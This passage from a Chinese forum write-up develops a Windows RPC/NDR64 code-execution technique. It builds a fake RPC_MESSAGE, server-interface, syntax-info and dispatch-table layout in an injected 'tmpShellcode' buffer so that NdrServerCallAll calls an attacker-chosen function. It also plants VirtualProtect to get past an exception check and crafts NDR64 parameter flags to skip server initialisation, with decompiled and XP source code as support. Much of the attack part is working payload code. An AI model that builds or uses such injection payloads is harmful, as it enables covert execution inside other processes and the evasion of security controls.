

13.png (43.38 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=MjczNDA0MXw1M2M1YjUwNnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA0MXw1M2M1YjUwNnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:50 上传

**再然后判断是否有 thunk table，如果没有，则从`dispatchtable`取值**做 invoke



14.png (72.53 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=MjczNDA0MnxkNTU5YjliOXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA0MnxkNTU5YjliOXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:50 上传

而`dispatchtable`是我们可控的，这就是整个游戏的关键。



15.png (65.11 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=MjczNDA0M3xiZWMwYWFkM3wxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA0M3xiZWMwYWFkM3wxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:50 上传

之后的暂时不分析，我们一个一个来说

## 0x6 payload构造

### RPC结构体构造

**这边非常的感谢朋友 heroman 的帮助**，没有他这个就进行不下去了，因为我写了一坨狗屎，第二天就全忘记了



16.png (327.24 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=MjczNDA0NHxkNDVmMjg2NXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA0NHxkNDVmMjg2NXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:51 上传

然后 heroman 不断修改，改正常一点了，要不然真没办法写了



17.png (244.82 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=MjczNDA0NnwxNWRkNmFlMHwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA0NnwxNWRkNmFlMHwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:51 上传

payload:


# `Ndr64pServerUnMarshal` 异常

## 结构体布局与填充

```
    RPC_MESSAGE* RpcMsg0 = (RPC_MESSAGE*)tmpShellcode;
    RPC_SERVER_INTERFACE* RpcInterfaceInfo0 =
        (RPC_SERVER_INTERFACE*)(tmpShellcode + 0x88);
    MIDL_SERVER_INFO* RpcSrvInfo0 =
        (MIDL_SERVER_INFO*)(tmpShellcode + 0x88 + sizeof(RPC_SERVER_INTERFACE));
    PVOID* DispatchTable0 =
        (PVOID*)(tmpShellcode + 0x88 + sizeof(RPC_SERVER_INTERFACE) +
                 sizeof(MIDL_SERVER_INFO));
    MIDL_SYNTAX_INFO* SyntaxInfo0 =
        (MIDL_SYNTAX_INFO*)(tmpShellcode + 0x88 + sizeof(RPC_SERVER_INTERFACE) +
                            sizeof(MIDL_SERVER_INFO) + sizeof(PVOID));
    MIDL_STUB_DESC* StubDesc0 =
        (MIDL_STUB_DESC*)(tmpShellcode + 0x88 + sizeof(RPC_SERVER_INTERFACE) +
                          sizeof(MIDL_SERVER_INFO) + sizeof(PVOID) +
                          sizeof(MIDL_SYNTAX_INFO) * 2);
    ULONG_PTR* FmtStrOffset0 =
        (ULONG_PTR*)(tmpShellcode + 0x88 + sizeof(RPC_SERVER_INTERFACE) +
                     sizeof(MIDL_SERVER_INFO) + sizeof(PVOID) +
                     sizeof(MIDL_SYNTAX_INFO) * 2 + sizeof(MIDL_STUB_DESC));
    NDR64_PROC_FORMAT* ProcStr0 =
        (NDR64_PROC_FORMAT*)(tmpShellcode + 0x88 +
                             sizeof(RPC_SERVER_INTERFACE) +
                             sizeof(MIDL_SERVER_INFO) + sizeof(PVOID) +
                             sizeof(MIDL_SYNTAX_INFO) * 2 +
                             sizeof(MIDL_STUB_DESC) + sizeof(ULONG_PTR));

    //_NDR_PROC_CONTEXT Ndr+Proc
    DispatchTable0[0] = (PVOID)theNdrServerCallAllAddress;
    RpcSrvInfo0->DispatchTable =
        (SERVER_ROUTINE*)REMOTE_CLS_ADDRESS(DispatchTable0);

    FmtStrOffset0[0] = (ULONG_PTR)REMOTE_CLS_ADDRESS(ProcStr0);
    (SyntaxInfo0 + 1)->FmtStringOffset =
        (USHORT*)REMOTE_CLS_ADDRESS(FmtStrOffset0);
    RpcSrvInfo0->pSyntaxInfo =
        (MIDL_SYNTAX_INFO*)REMOTE_CLS_ADDRESS(SyntaxInfo0);
    RpcSrvInfo0->pStubDesc = (MIDL_STUB_DESC*)REMOTE_CLS_ADDRESS(StubDesc0);
    RpcSrvInfo0->DispatchTable =
        (SERVER_ROUTINE*)REMOTE_CLS_ADDRESS(DispatchTable0);
    // RpcSrvInfo0->FmtStringOffset = (unsigned short*)0x1337;
    RpcSrvInfo0->ProcString = (PFORMAT_STRING)0xAAAA;

    RpcInterfaceInfo0->InterpreterInfo =
        (MIDL_SERVER_INFO*)REMOTE_CLS_ADDRESS(RpcSrvInfo0);
    RpcMsg0->RpcInterfaceInformation =
        (RPC_SERVER_INTERFACE*)REMOTE_CLS_ADDRESS(RpcInterfaceInfo0);
    RpcMsg0->ProcNum = 0;
    RpcMsg0->RpcFlags = 0x1000;
```

这块没heroman真做不了，这个结构体非常复杂。网上有个公开的填充，但是是韩国人写的，代码更加不忍直视。



[18.png](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA0NXw1Njg1NThjMXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes) (118.91 KB, 下载次数: 4)

2024-11-9 04:51 上传

## 标准结构体

这个就是标准的结构体了。

## 异常现象

直接执行会发现抛异常。



[19.png](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA0N3w3YWIxZWRjN3wxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes) (37.61 KB, 下载次数: 4)

2024-11-9 04:51 上传

## 关键代码

[Asm] 纯文本查看 复制代码

```
LABEL_67:

    if ( !ThreadPointer )
      goto LABEL_58;

    goto LABEL_57;

  }

LABEL_18:

  result = a1->RpcMsg;

  Handle = a1->RpcMsg->Handle;

  if ( Handle )

  {

    if ( (*((_BYTE *)a1->pContext + 88) & 2) != 0 )

    {

      return (PRPC_MESSAGE)_guard_xfg_dispatch_icall_fptr(a1, a2);

    }

    else

    {

      result = (PRPC_MESSAGE)_guard_xfg_dispatch_icall_fptr(Handle, 5i64);

      if ( (_DWORD)result )

        RpcRaiseException(1783);

    }

  }
```

换个别人的，我的Windows太新了，有XFG：

[Asm] 纯文本查看 复制代码

```
LABEL_26:
  v25 = pStubMsg1->RpcMsg;
  v26 = (LRPC_SCALL *)pStubMsg1->RpcMsg->Handle;//VideoDirtListener, first entry of fake vftable
  if ( v26 )
  {
    if ( (pStubMsg1->pContext->Flags & 2) != 0 )
    {
      ...
    }
    else
    {
      v27 = *(int (__fastcall **)(LRPC_SCALL *, unsigned int))(*(_QWORD *)v26 + 0x100i64);
      if ( v27 == LRPC_SCALL::CleanupSystemHandles )
        LODWORD(v25) = LRPC_SCALL::CleanupSystemHandles(v26, 5u);
      else
        LODWORD(v25) = v27(v26, 5u);
      if ( (_DWORD)v25 )
        RpcRaiseException(1783);
    }
  }
  return (int)v25;
}
```

这个异常的原因是，他一定会执行 `handle + 0x100` 的地址，而且这个地址需要返回 `0`，否则会抛异常。韩国人的解决办法是填 `VirtualProtect`，这样他会返回 `false`，而也就接大欢喜了。

> `RpcMsg` 的地址是原始的 `VideoDirtListener`，`Handle` 假的 `vftable` 的地址存储在偏移量 `0` 处。所以 `v26` 会有这个假 `vftable` 的第一个条目的值；如果存储在内存中的地址加上 `0x100` 的值非零，它将调用它；如果返回值非零，则异常会被扔掉。如果只是将假 `vftable` 的第一个条目设置为 `0`，不是会因为没有进入 `if` 语句而立即返回吗？由于该部分 `NdrStubCall2` 中也被引用，因此不能设置为 `0`。因此，该部分中要调用的函数 `VirtualProtect` 被创建为。当操作因使用不正确的参数调用等原因而失败时，`VirtualProtect` 返回 `0`，因此我能够毫无异常地传递该部分！

无论如何，`RpcMsg->Buffer` 用于调用函数的所有参数都被复制到 `NdrStubCall2` 指向的 arg 堆栈中。然后，`Invoke` 期待已久的调用将被调用，其中包含要调用的函数的地址和存储要使用的参数的缓冲区作为参数！

### 增加代码如下

[Asm] 纯文本查看 复制代码

```
*(ULONG_PTR*)(tmpShellcode + 0x100) =
        (ULONG_PTR)VirtualProtect;  // 为了通过Ndr64pServerUnMarshal最后的那一段
```

## 参数问题

修复好后，继续往下走，会发现我们继续抛了异常：



[20.png](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA0OHw1ZmUwZWE2YXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes) (160.74 KB, 下载次数: 4)

2024-11-9 04:52 上传

出现的位置在 `for` 循环根据 `handle` 创建服务端 `handle` 的代码里面：

[Asm] 纯文本查看 复制代码

```
or ( i = 0; ; ++i )                          // 这一段在XP下应该是 Ndr64OutInit 被Ndr64pServerOutInit内链进来了
  {
    v108 = i;
    if ( i >= *((_DWORD *)v22 + 8) )
      break;
    pParam = (struct_pParam *)(v23 + 16i64 * i);//         pParamFlags = ( NDR64_PARAM_FLAGS * ) & ( Params[n].Attributes );
    pParamFlags = (struct_ProcStr0_2)pParam->Attributes;
    if ( (*(_WORD *)&pParamFlags & 0x800) != 0 )
    {
      pArg = (unsigned __int8 **)(*((_QWORD *)v22 + 6) + pParam->StackOffset);
      v103 = pArg;
      if ( *pArg )
        goto LABEL_33;
    }
    else if ( (*(_BYTE *)&pParamFlags & 8) == 0
           && ((*(_BYTE *)&pParamFlags & 0x20) == 0 || (*v24 & 0x100000) != 0)
           && (*(_BYTE *)&pParamFlags & 4) == 0 )
    {
      pArg = (unsigned __int8 **)(*((_QWORD *)v22 + 6) + pParam->StackOffset);
      v103 = pArg;
LABEL_33:
      if ( *(__int16 *)&pParamFlags >= 0 )
                  .....
```

他想读一个 `'Q'`，结果我那个地方是空指针。



[21.png](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA0OXw3NzRhOWQyOHwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes) (23.82 KB, 下载次数: 4)

2024-11-9 04:53 上传

有什么办法可以跳过吗？

## 逆向分析与跳过思路

根据逆向调试，我们可以知道他跟 `params` 相关：



[22.png](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA1MHw2OTYxYWEzMnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes) (23.82 KB, 下载次数: 3)

2024-11-9 04:53 上传

[Asm] 纯文本查看 复制代码

```
pParamFlags = ( NDR64_PARAM_FLAGS * ) & ( Params[n].Attributes );
```

基本上，他根据 `Attributes` 来判断这个flag是否需要进行操作。而我们没填任何 `Attributes`，导致他走到了 `Q` 的位置。

他读的位置，是 `ProcStr0` 的位置，读的是它之后的：



[23.png](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA1MXwwNWQ2NTdmMnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes) (67.84 KB, 下载次数: 4)

2024-11-9 04:53 上传

而他是按照 `pcontext.paramsnum` 来读的，`pcontext.paramsnum` 是在 `MulNdrpInitializeContextFromProc` 的时候初始化的，我们不可能控制。

鲁迅说得好，XP代码就是你的坚实后盾。当你一筹莫展的时候，看看XP代码。


# XP NDR64 参数解析分析

## 初始化与参数获取

在XP代码里面，`pcontext`是由`NdrServerSetupNDR64TransferSyntax()`初始化的，跟我们的牛头不对马嘴，但是怎么拿参数的肯定没变：

这个参数是由`NdrpGetProcString()`读的：

```
void
NdrServerSetupNDR64TransferSyntax(
    ulong                   ProcNum,
    MIDL_SYNTAX_INFO  *     pSyntaxInfo,
    NDR_PROC_CONTEXT  *     pContext)
{

    PFORMAT_STRING      pFormat;
    SYNTAX_TYPE         SyntaxType = XFER_SYNTAX_NDR64;

    NDR_ASSERT( SyntaxType == NdrpGetSyntaxType( &pSyntaxInfo->TransferSyntax ) ,
                "invalid transfer sytnax" );

    pFormat = NdrpGetProcString( pSyntaxInfo,
                                 SyntaxType,
                                 ProcNum );

    MulNdrpInitializeContextFromProc(
                                 SyntaxType,
                                 pFormat,
                                 pContext,
                                 NULL );    // StartofStack. Don't have it yet.

    pContext->pSyntaxInfo = pSyntaxInfo;

}
```

而这个`NdrpGetProcString()`，是从用户里面`ProcString`提取的

```
__forceinline

PFORMAT_STRING

NdrpGetProcString( PMIDL_SYNTAX_INFO pSyntaxInfo,

                   SYNTAX_TYPE SyntaxType,

                   ulong       nProcNum )

{

   if ( SyntaxType == XFER_SYNTAX_DCE )

      {

        unsigned long nFormatOffset;

        nFormatOffset = (pSyntaxInfo->FmtStringOffset)[nProcNum];

        return (PFORMAT_STRING) &pSyntaxInfo->ProcString[nFormatOffset];

      }

   else

      {

      return ((PFORMAT_STRING*)(pSyntaxInfo->FmtStringOffset))[nProcNum];      

      }

}
```

## 上下文赋值

读到之后，由`MulNdrpInitializeContextFromProc()`赋值参数：
```cpp

    else if ( SyntaxType == XFER_SYNTAX_NDR64  )

            {

            NDR64_PROC_FLAGS *  pProcFlags;

            pContext->CurrentSyntaxType = XFER_SYNTAX_NDR64;

            pContext->Ndr64Header = (NDR64_PROC_FORMAT *)pFormat;

            pContext->HandleType =

            NDR64MAPHANDLETYPE( NDR64GETHANDLETYPE( &pContext->Ndr64Header->Flags ) );

            pContext->UseLocator = (FC64_AUTO_HANDLE == pContext->HandleType);

            RpcFlags = pContext->Ndr64Header->RpcFlags;

#if defined(_AMD64_) || defined(_IA64_)

            pContext->FloatDoubleMask = pContext->Ndr64Header->FloatDoubleMask;

#endif // defined(_AMD64_) || defined(_IA64_)

            pContext->NumberParams = pContext->Ndr64Header->NumberOfParams;

            pContext->Params = (NDR64_PROC_FORMAT *)( (char *) pFormat + sizeof( NDR64_PROC_FORMAT ) + pContext->Ndr64Header->ExtensionSize );

            pContext->StackSize = pContext->Ndr64Header->StackSize;

            pProcFlags = (NDR64_PROC_FLAGS *) &pContext->Ndr64Header->Flags;

            pContext->HasComplexReturn = pProcFlags->HasComplexReturn;

            pContext->IsAsync = pProcFlags->IsAsync;

            pContext->IsObject = pProcFlags->IsObject;

            pContext->HasPipe = pProcFlags->UsesPipes;

            pContext->ExceptionFlag = pContext->IsObject || pProcFlags->HandlesExceptions;

            }   // XFER_SYNTAX_NDR64

#endif
```

## 服务端输出初始化与 Flag 判断

知道这样来的我们就好办多了，我们刚刚遇到的那个炸，跟参数有关系。他会判断参数是不是需要特殊初始化服务端的`flag`，如果是就会设置一些东西导致炸掉

```
void
Ndr64pServerOutInit( PMIDL_STUB_MESSAGE pStubMsg )
{
    NDR_PROC_CONTEXT * pContext = ( NDR_PROC_CONTEXT *) pStubMsg->pContext;
    NDR64_PARAM_FLAGS   *       pParamFlags;
    NDR64_PARAM_FORMAT* Params =   (NDR64_PARAM_FORMAT*)pContext->Params;
    NDR64_PROC_FLAGS *      pNdr64Flags = (NDR64_PROC_FLAGS *)&pContext->Ndr64Header->Flags;
    uchar *                 pArg;   
   
    for ( ulong n = 0; n NumberParams; n++ )
        {
        pParamFlags = ( NDR64_PARAM_FLAGS * ) & ( Params[n].Attributes );
        
        if ( !pParamFlags->IsPartialIgnore )
            {
            
            if (  pParamFlags->IsIn     ||
                  (pParamFlags->IsReturn && !pNdr64Flags->HasComplexReturn) ||
                  pParamFlags->IsPipe )
                continue;

            pArg = pContext->StartofStack + Params[n].StackOffset;

            }
        else
            {

            pArg = pContext->StartofStack + Params[n].StackOffset;

            if ( !*(void**)pArg )
                continue;
            }

        //
        // Check if we can initialize this parameter using some of our
        // stack.
        //
        if ( pParamFlags->UseCache  )
            {
            *((void **)pArg) = NdrpAlloca( &pContext->AllocateContext, 64 );
            
            MIDL_memset( *((void **)pArg),
                         0,
                         64 );
            continue;
            }
        else if ( pParamFlags->IsBasetype )
            {
            *((void **)pArg) = NdrpAlloca( &pContext->AllocateContext,8);
            MIDL_memset( *((void **)pArg), 0, 8 );
            continue;
            };

        Ndr64OutInit( pStubMsg,
                    Params[n].Type,
                    (uchar **)pArg );
        }

}
```

其中

```
if (  pParamFlags->IsIn     ||

                  (pParamFlags->IsReturn && !pNdr64Flags->HasComplexReturn) ||

                  pParamFlags->IsPipe )

                continue;
```

参数`flag`是关键

## 结论与利用思路

因此，我们可以得出结论：

1. 这个参数是用户的`procstring`后面的`buffer`控制
2. `prcostring`控制了参数数量和`stack`
3. 每个参数由单独的属性

因此，我们可以设置`procstring`为一个参数，然后给他设置`flag`为`IsIn`跳过初始化：

```
    auto paramsBuffer = tmpShellcode + calcOffset;
    // 设置参数
    RpcMsg0->Buffer = (void*)REMOTE_EDIT_ADDRESS(paramsBuffer);
    RpcMsg0->BufferLength = virtualProtectParamSize;  // virtualprotect的参数
    calcOffset += RpcMsg0->BufferLength;
```

设置参数：

```
    static auto currentCopyCount = 0;

        auto ndr64Param = (_NDR64_PARAM_FORMAT*)(tmpShellcode + calcOffset);

        ndr64Param->Attributes.IsIn = true;

        ndr64Param->Attributes.IsBasetype = true;

        // auto typeAddress = tmpShellcode + calcOffset;

        // theParamTypeAddress.push_back(typeAddress);

        // ndr64Param->Type = (void*)REMOTE_CLS_ADDRESS(typeAddress);

        ndr64Param->StackOffset = currentCopyCount * 4;

        currentCopyCount += 1;

        // 这个没用,因为不走IsSimpleRef,simpleref那段内存是read only没办法赋值

        // [url=https://github.com/ufwt/windows-]https://github.com/ufwt/windows-[/url] ... cxx#L694C31-L694C43

        //*(char*)(typeAddress) = (char)_Ndr64SimpleTypeBUfferSizeMap::kint64;

        // calcOffset += sizeof(_NDR64_PARAM_FORMAT);

        theParamTypeAddress.push_back(ndr64Param);

        calcOffset += sizeof(_NDR64_PARAM_FORMAT);
```

注意，代码里面没有实际设置`IsIn`，因为待会会说参数传参问题。现在就走到了`dispatchtable`的`invoke`逻辑了：

